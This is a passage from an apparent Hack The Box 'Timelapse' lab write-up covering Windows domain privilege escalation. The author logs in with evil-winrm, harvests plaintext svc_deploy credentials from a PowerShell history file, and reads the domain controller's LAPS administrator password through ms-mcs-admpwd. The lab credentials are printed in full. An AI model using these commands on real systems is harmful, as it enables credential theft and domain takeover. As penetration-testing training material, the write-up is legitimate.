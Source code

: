 I then authenticated and logged in as the user `legacyy`!
Note: I also removed the PEM pass phrase because it was annoying with the command: `openssl rsa -in timelapse.key -out timelapse.key`.
```bash
➜  timelapse evil-winrm -i 10.10.11.152 -S -c openssl/timelapse.crt -k openssl/timelapse.key

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

Enter PEM pass phrase:
*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
Enter PEM pass phrase:
timelapse\legacyy
*Evil-WinRM* PS C:\Users\legacyy\Documents> 
```
When I attempted to run winPEAS, it was caught by antivirus.
```bash
*Evil-WinRM* PS C:\programdata> upload exes/winPEASany.exe
Info: Uploading exes/winPEASany.exe to C:\programdata\winPEASany.exe

                                                             
Data: 2582528 bytes of 2582528 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\programdata> ls


    Directory: C:\programdata


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         3/3/2022   7:30 PM                Acronis
d---s-       10/23/2021  11:27 AM                Microsoft
d-----         3/3/2022  10:09 PM                Package Cache
d-----        5/22/2022  12:59 PM                regid.1991-06.com.microsoft
d-----        9/15/2018  12:19 AM                SoftwareDistribution
d-----         3/3/2022  10:01 PM                ssh
d-----       10/23/2021  11:31 AM                USOPrivate
d-----       10/23/2021  11:31 AM                USOShared
d-----         3/3/2022  10:10 PM                VMware
-a----        5/22/2022   1:07 PM        1916715 winPEASany.exe


*Evil-WinRM* PS C:\programdata> .\winPEASany.exe
Program 'winPEASany.exe' failed to run: Operation did not complete successfully because the file contains a virus or potentially unwanted softwareAt line:1 char:1
+ .\winPEASany.exe
+ ~~~~~~~~~~~~~~~~.
At line:1 char:1
+ .\winPEASany.exe
+ ~~~~~~~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
*Evil-WinRM* PS C:\programdata>

```
When listing users I noticed that `svc_deploy` is the only other legitimate user on the box besides administrator.
```bash
*Evil-WinRM* PS C:\Users> net users                                                                                                                                                                                                         
                                                                                                                                                                                                                                            
User accounts for \\                                                                                                                                                                                                                        
                                                                                                                                                                                                                                            
-------------------------------------------------------------------------------                                                                                                                                                             
Administrator            babywyrm                 Guest
krbtgt                   legacyy                  payl0ad
sinfulz                  svc_deploy               thecybergeek
TRX
The command completed with one or more errors.

*Evil-WinRM* PS C:\Users> ls


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       10/23/2021  11:27 AM                Administrator
d-----        5/22/2022   1:37 PM                legacyy
d-r---       10/23/2021  11:27 AM                Public
d-----       10/25/2021  12:23 PM                svc_deploy 
d-----        2/23/2022   5:45 PM                TRX
```
When listing details for the `svc_deploy` user I noticed that the user is a member of `LAPS_Readers` which would allow us to gain administrator access so my new goal became figuring out credentials for the user `svc_deploy`.
```bash
*Evil-WinRM* PS C:\Users> net user svc_deploy
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 12:12:37 PM
Password expires             Never
Password changeable          10/26/2021 12:12:37 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/22/2022 3:44:26 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.
```
After a bit of manual enumeration, I checked the powershell history file to find credentials for `svc_deploy`!
```bash
*Evil-WinRM* PS C:\Users\legacyy\appdata\Roaming\Microsoft\Windows\Powershell\PSReadLine> cat ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```
I then authenticated as `svc_deploy`.
```bash
➜  timelapse evil-winrm -i 10.10.11.152 -S -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_deploy\Documents> whoami
timelapse\svc_deploy
```
Then I ran a command to query the current administrator password.
```bash
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> Get-ADComputer -Filter {ms-mcs-admpwd -like '*'} -Properties 'ms-mcs-admpwd'


DistinguishedName : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
DNSHostName       : dc01.timelapse.htb
Enabled           : True
ms-mcs-admpwd     : [e7J6GEY2881Xe6BnPe+iSmE
Name              : DC01
ObjectClass       : computer
ObjectGUID        : 6e10b102-6936-41aa-bb98-bed624c9b98f
SamAccountName    : DC01$
SID               : S-1-5-21-671920749-559770252-3318990721-1000
UserPrincipalName :
```
Resources used:
[Step-by-Step Guide: How to Configure Microsoft Local Administrator Password Solution (LAPS)](https://techcommunity.microsoft.com/t5/itops-talk-blog/step-by-step-guide-how-to-configure-microsoft-local/ba-p/2806185)
![[Attachments/Pasted image 20220522103313.png]]
[Microsoft LAPS Security & Active Directory LAPS Configuration Recon](https://adsecurity.org/?p=3164)
![[Attachments/Pasted image 20220522103334.png]]